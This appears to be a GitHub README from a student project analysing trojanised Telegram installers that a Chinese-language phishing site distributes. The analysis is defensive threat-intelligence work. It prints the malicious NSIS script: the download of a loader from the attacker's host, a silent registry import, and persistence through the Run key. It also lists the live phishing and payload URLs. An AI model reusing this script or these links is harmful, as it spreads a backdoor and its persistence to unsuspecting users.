 # Dangerous_Telegram
Contributor : [Lei HUANG](https://github.com/hualin999)

Tutors : Mr. [Alexandre DULAUNOY](https://github.com/adulau) & Mr. [Christian STUDER](https://github.com/chrisr3d)

## Project Context

As we all know, there is a firewall called "Great Firewall" in China. The Great Firewall is the combination of legislative actions and technologies enforced by the People's Republic of China to regulate the Internet domestically. Its role in internet censorship in China is to block access to selected foreign websites and to slow down cross-border internet traffic.

The effect includes : limiting access to foreign information sources, blocking foreign internet tools (e.g. Google Search, Facebook, Twitter, Wikipedia, and others) and **Mobile Apps**, and requiring foreign companies to adapt to domestic regulations.

Obviously our subject today is not "Great Firewall", but because of this, people in China cannot use Telegram through official downloads, and therefore Telegram does not release official Chinese installers and language packs. 

This has led to the uncontrolled (without legal constraints) spread of various **Trojans** and **Malware** disguised as phishing links (like official download link/installation package or Chinese installation package) or Chinese community chat files (Especially Telegram downloads chat files by default).

## Project Objective

**The purpose of this project is to analyze some Malware and Trojan samples that are currently spreading widely in the Telegram Chinese community, and to translate the relevant threat intelligence information into a specific analysis model for MISP.**

## Sample Analysis Procedure

The original sample was taken from http://telegram-vip.com, a phishing site disguised as a Chinese version of Telegram :

![alt Fake Chinese version of Telegram website](./images/p1.png)

The home page of the website has links to download the so-called versions, but if you click on the links to download "Telegram for Mac" or "Telegram for Windows", the downloaded file will be a Windows installer named "tsetup.2.1.10.exe". If you click on the link to download Telegram for Android or iPhone, you will be redirected to another page : 

![alt Download page](./images/p2.png)

Depending on the link clicked, the results vary :

- Clicking on the iPhone download link will redirect you to the normal Apple App Store : https://apps.apple.com/app/telegram-messenger/id686449807

- Clicking on the Android version will redirect you to another link to download the installer : https://telegrcn.org/download/telegramCN_631.apk

- Clicking on the Mac version download link will redirect you to another link to download the installer : https://telegrcn.org/download/tsetup.2.1.10.dmg

- Clicking on the Windows version is the same as the installation package downloaded from the home page.

Next, for the sake of time, we will first analyze the Windows version of the "installer".

## Malware installation package information

|Filename|SHA256|
|:--------:|:------:|
|telegram_setup.2.1.6.exe|1f09381186a82f070d7beda66f575efdecd92b76217b5a0d9b904c1d64c89fc8|
|telegram_setup.2.1.10.exe|35133a3283381aa503f0d415de3ab8111e2e690bd32ad3dddde1213b51c877ba
|

Both installers use the NSIS ([Nullsoft Scriptable Install System](https://nsis.sourceforge.io/Main_Page)) package, which can be extracted directly with 7-zip to get the restored installation script. 7-zip added automatic decompilation of the NSIS script in 9.33, but removed it in 15.06, so be aware that version must be in between.

The directory structure of the two versions after decompression is as follows : 

```
2.1.6/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   └── TextReplace.dll
├── C                                  // The file will be copied directly to the corresponding location during installation
│   └── PerfLog
│       ├── AddInProcess.exe           // Backdoor (Loader)
│       └── AddInProcess.exe.config
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── ns.reg                             // Payload Registry File
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

```
2.1.10/
├── $PLUGINSDIR                        // NSIS Related Files
│   ├── InetLoad.dll
│   ├── InstallOptions.dll
│   ├── ioSpecial.ini
│   ├── LangDLL.dll
│   ├── modern-wizard.bmp
│   ├── System.dll
│   └── TextReplace.dll
├── [NSIS].nsi                         // NSIS scripts extracted by 7-zip
├── Telegram.exe                       // Telegram Desktop 2.1.6.0
├── uninst.exe.nsis
└── Updater.exe
```

Comparing the two versions, we can obviously notice that version 2.1.10 is missing the key backdoor files **C:\PerfLog** and **ns.reg**, 2.1.6 directly packaged these files together, but 2.1.10 changed the way, using the NSIS script to download these two files only during the installation process, which can be seen in the NSIS script. The following is an excerpt from the 2.1.10 NSIS.nsi script with some of the relevant commands : 

```
# Download loader and registry file
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index2.php cnPath.exe
InetLoad::load /BANNER "" "Cameron Diaz download in progress, please wait ;)" http://www.telegram-vip.com/index3.php ns.reg
```

```
# Replace 123456 to <ComputerName> from ns.reg then use regedit.exe to import
ReadRegStr $R1 HKLM SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName ComputerName
TextReplace::_FindInFile /NOUNLOAD $INSTDIR\ns.reg 123456 /S=1
TextReplace::_ReplaceInFile /NOUNLOAD $INSTDIR\ns.reg $INSTDIR\ns.reg 123456 $R1 "/S=1 /C=1 /AO=1"
Exec "regedit.exe /s $\"$INSTDIR\ns.reg$\""
```

```
# Move $INSTDIR\cnPath.exe to C:\PerfLog\AddInProcess.exe
StrCpy $R0 $INSTDIR\cnPath.exe
StrCpy $R1 C:\PerfLog\AddInProcess.exe
System::Call "Kernel32::MoveFileA(t R0,t R1)"
```

```
# Setup service registry and run
WriteRegStr HKCU Software\Microsoft\Windows\CurrentVersion\Run telegramCnService C:\PerfLog\AddInProcess.exe
ExecShell "" C:\PerfLog\AddInProcess.exe
```

Understanding the above NSIS script can help us learn how it is infected and how it is persisted.

## Load file AddInProcess.exe

